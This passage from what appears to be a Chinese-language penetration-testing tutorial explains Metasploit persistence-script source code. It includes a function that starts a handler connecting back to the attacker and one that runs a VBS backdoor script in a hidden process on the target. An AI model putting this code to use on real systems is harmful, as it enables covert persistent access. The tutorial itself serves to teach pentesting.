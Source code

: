 ```
print_good("Multi/Handler started!")
end 
```

此函数创建一个多处理器，以连接回攻击系统。这也是一个通用函数，如果您希望通过设置多处理程序来实现自动回接功能，则可以在脚本中使用该函数。

```
# Function to execute script on target and return the PID of the process
#-------------------------------------------------------------------------------
def targets_exec(script_on_target)
print_status("Executing script #{script_on_target}")
proc = session.sys.process.execute("cscript \"#{script_on_target}\"", nil, {'Hidden' => true})
print_good("Agent executed with PID #{proc.pid}")
file_local_write(@clean_up_rc, "kill #{proc.pid}\n")
return proc.pid
end 
```

此函数负责在目标计算机上执行脚本。持久性脚本在目标计算机上创建 vbs 脚本，因此必须执行这些脚本才能打开连接。 `Targets_exec()`函数解决了这个问题。如果要在目标机器上执行脚本，此函数也可以在您自己的脚本中用作常规函数。 `session.sys.process.execute()`调用负责执行脚本， `proc.pid`返回创建的后门进程的进程 ID。

代码的其余部分是自解释的，其中调用了这些函数，创建了清晰的脚本，并实现了选项检查。这个方法可能会让您清楚地知道，当我们执行 MeterMeter 脚本时，后台会发生什么。从笔测试人员的角度来看，能够根据工作场景读取和修改代码是非常重要的。这就是开源框架的魅力所在。您可以根据需要进行修改，并且可以通过直接分析可用的源代码来学习。
